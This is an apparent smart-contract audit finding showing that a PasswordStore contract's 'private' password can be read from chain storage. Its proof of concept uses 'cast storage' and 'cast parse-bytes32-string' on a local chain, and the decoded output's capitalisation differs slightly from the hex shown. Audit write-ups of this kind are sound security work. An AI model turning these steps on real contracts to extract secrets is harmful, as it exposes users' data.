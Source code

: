 ### [S-#] Storing variable on chain makes it visible to everyone, and no longer private.

**Description:** All data stored on chain is visible to everyone and can be read directly from the blockchain. The `PasswordStore::s_password` variable is intended to be a private variable and only accessed though the `PasswordStore::getPassword` function, which is intended to be only called by the owner of the contract.

We show one such method of reading any data off chain below.

**Impact:** Anyone can read the private password, severly breaking the functionality of the protocol.

**Proof of Concept:**
The below test case shows how anyone can read the password directly from the blockchain

1. Create a locally running chain
```bash
make anvil
```

2. Deploy the contract to the chain
```bash
make deploy
```

3. Run the storage tool

We us `1` because that's the storage slot of `s_password` in the contract

```bash
cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545
```

You'll get an output that looks like this:
`0x6d7950617373776f726400000000000000000000000000000000000000000014`

You can then parse that hex to a string with:

```bash
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

and get an output of:
```
myPAssword
```

**Recommended Mitigation:** Due to this, the overall architecture of the contract should ber rethought. One could encrypt the password off-chain, and then store the encrypted password on-chain. This would require the user to remember another password off-chain to decrypt the password. However, you'd also likely want to remove the view function as you wouldn't want the user to accidentally send a transaction with the password that decrypts your password.